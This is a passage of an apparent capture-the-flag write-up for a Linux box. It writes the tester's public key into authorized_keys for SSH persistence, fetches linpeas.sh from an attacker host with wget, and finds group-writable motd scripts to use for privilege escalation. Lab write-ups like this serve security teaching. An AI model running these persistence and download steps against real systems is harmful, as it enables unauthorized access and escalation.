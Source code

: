     |.o + .... . .. oo|
    |..B o .+S. .  .oo|
    |.. * ..... . o  E|
    |  . o..   ..o .  |
    | o .  ..= + ..   |
    |  o.. .+ =.o     |
    +----[SHA256]-----+

Now just copy you public key and echo it to authorized_keys using command


    echo "<---public key --->" > authorized_keys


![](https://paper-attachments.dropbox.com/s_D88239B58E0AD8374C9EC1446F44F5B3595D2F17E09DF1A9CCD36FBE59479F08_1597824460595_Screenshot+2020-08-19+at+1.37.30+PM.png)

    $ cd /tmp
    $ wget http://10.10.14.x:4545/linpeas.sh     
    --2020-08-19 01:15:07--  http://10.10.14.76:4545/linpeas.sh
    Connecting to 10.10.14.x:4545... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 233677 (228K) [text/x-sh]
    Saving to: ‘linpeas.sh’
    
    linpeas.sh                                          100%[================================================================================================================>] 228.20K   110KB/s    in 2.1s    
    
    2020-08-19 01:15:10 (110 KB/s) - ‘linpeas.sh’ saved [233677/233677]

While running linPeas.sh , found some interesting stuffs like


    [+] Interesting GROUP writable files (not in Home) (max 500)
    [i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#writable-files        
    Group sysadmin:                                                                    
    /etc/update-motd.d/50-motd-news                                                      
    /etc/update-motd.d/10-help-text
    /etc/update-motd.d/91-release-upgrade
    /etc/update-motd.d/00-header
    /etc/update-motd.d/80-esm

Let’s move to the folder and check whats happening there


    $ ls -la
    total 32
    drwxr-xr-x  2 root sysadmin 4096 Aug 27  2019 .
    drwxr-xr-x 80 root root     4096 Mar 16 03:55 ..
    -rwxrwxr-x  1 root sysadmin  981 Aug 19 03:29 00-header
    -rwxrwxr-x  1 root sysadmin  982 Aug 19 03:29 10-help-text
    -rwxrwxr-x  1 root sysadmin 4264 Aug 19 03:29 50-motd-news
    -rwxrwxr-x  1 root sysadmin  604 Aug 19 03:29 80-esm
    -rwxrwxr-x  1 root sysadmin  299 Aug 19 03:29 91-release-upgrade
